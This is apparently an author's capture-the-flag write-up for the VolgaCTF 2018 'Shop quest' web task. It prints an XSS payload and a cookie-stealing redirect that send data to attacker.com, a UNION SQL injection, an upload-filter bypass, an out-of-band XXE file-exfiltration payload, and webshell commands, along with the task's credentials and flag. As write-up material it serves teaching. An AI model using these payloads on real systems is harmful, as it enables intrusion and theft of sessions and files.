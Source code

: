 # Shop quest
Category: Web Points: 500 Solves: 0 Description:

For this task, teams could get 500 points, so it consisted of several stages that led to the execution of the code. 
Unfortunately, because of the heavy workload, the task sometimes worked slowly, but it was still possible to solve it. 
Nobody received the flag, although some teams went 2 stages out of three and almost reached the goal. 
I hope that to solve it in any case was interesting and glad that many attempted to get the flag.

## Stage one - Client side
Firstly, we can see a main page. In the browser console, we can see the name of the Vue.js framework used to chat with the operator.
Secondly, in source code we can see injection point, there is the customer name, which is specified at registration.

![XSS in name parameter](screenshots/xss_stage.png "XSS in name")

This XXS will work on the operator page. 
Final attack vector for stealing Operator info:
```
${toString.constructor('var http=new XMLHttpRequest();http.open("POST","http://attacker.com/?bot", true);http.setRequestHeader("Content-type","application/x-www-form-urlencoded");http.send("res="+btoa(unescape(encodeURIComponent(document.body.innerHTML))));')()}
```
On *attacker.com* we can see the page where the operator is located reads our message.
Decode this page and find operator's password:

*Change your default password: Floise_default_@@@f*

But, you can ask: "Where can I find the login? Login "Operator" doesn't work!"
Ok) We can see non http only cookie - *userId*. This is IDOR. We can steal operator's cookie and make request on the server with it.

```${toString.constructor('document.location = "http://attacker.com/?"+document.cookie')()}```

![IDOR in userId](screenshots/IDOR.png "IDOR exploitation")

Login as Operator:

login: Mark_323212

Password: Floise_default_@@@f

## Stage 2 - SQL Injection

![Operator's page](screenshots/Operators_page.png "Operator's page")

Here we can see operator's page. The operator has three additional methods:

+ GET /Chat/getMessages?chatId=1
+ GET /Operator/chat?chatId=1
+ POST /Chat/sendToClient

After a few minutes of fuzzing we can see that the first one may response with 500 status code.
Unfortunately, automatic scanners will not give anything here. We need professional pentester's skills!

+ /Chat/getMessages?chatId=1'--+-
+ /Chat/getMessages?chatId=1"--+-
+ /Chat/getMessages?chatId=1`--+-

WoW! The third one retrieve status code 200! So, there is injection in chat table name.

```SELECT * FROM `chat_<chatId>````

This is UNION based injection and we can see output. 
After a difficult dumping of the database structure, we learn the login and password hash of the admin.

Query:
```
http://shop-quest.quals.2018.volgactf.ru/Chat/getMessages?chatId=1`+union+select+login,hash,role,4+from+users+where+role=3--+-
```

Answer:
```
{"status":"ok","messages":[{"id":"1","text":"Hi. man","is_operator":0,"time":"11:02 PM"},{"id":"2","text":"May the Force be with you","is_operator":1,"time":"11:02 PM"},{"id":"3","text":"sdfsdf","is_operator":1,"time":"11:06 PM"},{"id":"Bibant","text":"3730a48f24ed9610f1ba7d4e6618f36135be1417755c3b9b2abc0c46e0803a8c","is_operator":3,"time":"4"}]}
```

*Bibant / 3730a48f24ed9610f1ba7d4e6618f36135be1417755c3b9b2abc0c46e0803a8c*

Hash is sha256. The first thing that comes to mind is the online brute password. It's success.

Login as Admin:

login: Bibant

Password: insaneclownposse

## Stage 3 - RCE

This stage is final and alows uploadin php shell. There is simple extension filter in upoads, words *php* and *htm* are replaced by empty string.

We have simple bypass like: *shell.pphphp*

When we upload a file, we obtain the generated random name for it. 

![Shell ulpoad](screenshots/upload_shell.png "Shell ulpoad")

But where is our shell? Let's read source code of site. We have the ability to save product info in XML format. Maybe XXE? YES!

However, even if the file is valid, the error is returned, that the functionality does not work yet.

*{"status":"error","message":"Table `goods` doesn't exist"}*

Let's try OOB XXE, and read index.php. There is exist on the server maybe. Send this payload:
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://attacker.com/oob.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

oob.xml
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker.com/?%data;'>">
```

We recieved index.php and than we have to read several files to find the file download code:
```
require_once 'utils/Core.php';
```

*utils/Core.php*
```
foreach ( glob( $_SERVER['DOCUMENT_ROOT'] . '/controllers/*Controller.php' ) as $filename ) {
```

*controllers/AdminController.php*
```
require_once 'utils/Uploader.php';
```

Finally, file is uploaded to:
```
/uploads_FjsyFkf/md5(user_login . asdasHF$&@(F&@)AF)JFN)/
```

user_login = Bibant, and we can finally find the flag:

[http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=find / -name flag*](http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=find / -name flag* "Find flag")

[http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=cat /home/flag*](http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=cat /home/flag* "Read flag")

Flag is: VolgaCTF{30ff764e5e70f8df3d3f6944c12d0f1a}

P.S. If you have read to the end, you are already a hero)




